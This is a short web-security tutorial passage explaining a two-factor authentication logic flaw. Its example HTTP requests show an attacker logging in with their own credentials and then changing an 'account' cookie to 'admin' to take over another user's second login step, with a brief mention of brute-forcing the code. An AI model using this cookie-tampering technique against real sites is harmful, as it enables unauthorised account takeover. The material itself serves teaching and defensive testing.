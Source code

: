 Sometimes flawed logic in two-factor authentication means that after a user has completed the initial login step, the website doesn't adequately verify that the same user is completing the second step.

For example, a user logs in with their credential in the first step as follows:
```http
POST /login-steps/first HTTP/1.1
Host: target-website.com
...
username=carlos&password=1234
```
They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:
```http
HTTP/1.1 200 OK
Set-Cookie: account=carlos
```
```http
GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```
When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=carlos
...
verification-code=qwerty
```
In this case, the attacker could login using their own credentials but then change the value of the `account` cookie to any username when submitting the verification code.
```http
POST /login-steps/second HTTP/1.1
Host: target-website.com
Cookie: account=admin
...
verification-code=qwerty
```
This is extremely dangerous if the attacker is then able to brute force the verification code, as it would allow them to login to any user accounts based entirely on their username.